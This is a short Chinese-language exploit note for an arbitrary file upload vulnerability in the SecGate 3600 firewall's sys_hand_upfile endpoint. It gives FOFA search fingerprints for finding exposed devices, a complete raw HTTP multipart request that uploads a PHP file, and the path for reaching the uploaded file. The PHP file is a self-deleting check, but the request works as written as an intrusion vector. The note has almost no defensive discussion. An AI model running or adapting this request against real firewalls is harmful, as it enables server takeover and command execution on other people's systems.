 ## 网神SecGate 3600 防火墙sys_hand_upfile 任意文件上传漏洞

 网神 SecGate 3600 防火墙 sys_hand_upfile 存在任意文件上传漏洞，攻击者可构造特殊 HTTP 请求上传任意文件获取服务器权限，执行恶意命令等。

 ## fofa
 ```
body="./images/lsec/login/loading.gif"
title="网神SecGate 3600防火墙"
```

## poc
```
POST /?g=sys_hand_upfile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows 98; Trident/3.0)
Content-Length: 244
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=gttd4i4aadwh9lmlp1ez
 
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="upfile"; filename="ceshi.php"
 
<?php echo md5('666');unlink(__FILE__);?>
--gttd4i4aadwh9lmlp1ez
Content-Disposition: form-data; name="submit_post"
 
sys_hand_upfile
--gttd4i4aadwh9lmlp1ez--
```

![image](../../images/6ba66f9f-affd-4600-ac29-2cfe98502b45.png)

访问文件路径
http//127.0.0.1/attachements/ceshi.php
